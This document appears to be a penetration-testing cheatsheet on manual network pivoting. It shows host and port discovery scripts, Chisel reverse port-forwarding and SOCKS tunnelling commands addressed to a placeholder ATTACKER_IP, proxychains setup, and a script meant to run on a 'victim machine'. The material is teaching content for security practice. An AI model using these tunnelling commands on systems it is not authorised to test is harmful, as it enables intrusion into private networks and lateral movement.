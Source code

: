 # Pivoting

Pivoting is a crucial technique in ethical hacking and penetration testing, allowing attackers to extend their reach within a network. The provided Cheatsheet outlines the process of pivoting manually, without relying on tools like Metasploit. Let's break down the steps:

#### 1. Discover Active Machines

* Use the `host_discovery.sh` script to ping all IPs on the specified network.
*   Example:

    ```bash
    bash host_discovery.sh 10.10.2
    ```

#### 2. Discover Open Ports

* Utilize the `port_discovery.sh` script to discover open ports on the active machines.
*   Example:

    ```bash
    bash port_discovery.sh <IP_ADDRESS>
    ```

#### 3. Port Forwarding with Chisel

* Download and use Chisel for port forwarding. Transfer the Chisel binary to the victim machine.
*   On the attacker's machine:

    ```bash
    ./chisel server --reverse -p 1234
    ```
*   On the victim machine:

    ```bash
    ./chisel client <ATTACKER_IP>:1234 R:80:<TARGET_IP>:80
    ```

#### 4. Tunneling Networks

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Create a tunnel between networks using Chisel for network pivoting.
*   On the attacker's machine:

    ```bash
    ./chisel client <ATTACKER_IP>:1234 R:socks
    ```
* Modify `/etc/proxychains.conf` to use the created tunnel.

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1).png" alt=""><figcaption><p>uncomment this line</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1).png" alt=""><figcaption><p>in the end of the file </p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1).png" alt=""><figcaption><p>Result</p></figcaption></figure>

#### Automation with Pivoting\_Enum Bash Script

* Transfer and execute the `pivoting.sh` script on the victim machine.
*   Example:

    ```bash
    bash pivoting.sh NETWORK
    ```
